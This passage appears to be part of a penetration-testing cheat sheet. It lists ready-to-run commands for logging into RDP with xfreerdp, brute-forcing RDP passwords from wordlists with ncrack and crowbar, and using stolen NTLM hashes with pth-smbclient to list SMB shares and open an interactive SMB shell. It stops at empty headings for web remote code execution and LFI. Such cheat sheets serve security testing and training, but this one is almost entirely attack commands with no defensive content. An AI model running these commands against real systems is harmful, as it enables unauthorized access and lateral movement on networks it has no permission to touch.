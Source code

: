 ```
xfreerdp /u:administrator /g:grandbussiness /p:bla /v:192.168.1.34
```

#### Wordlist based bruteforce

### NCRACK

ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389

```
ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389
```

### Crowbar

crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v

```
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

## Pass the hash

### Smb pass the hash

#### Tool:

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)


### Listing shared folders

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  -L <target_ip> \\\\<target_ip>\\ <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Interactive smb shell

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  \\\\<target_ip>\\shared_folder <hash>

```
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

## Web Application

### Web Remote code


### LFI (Local File Inclusion)
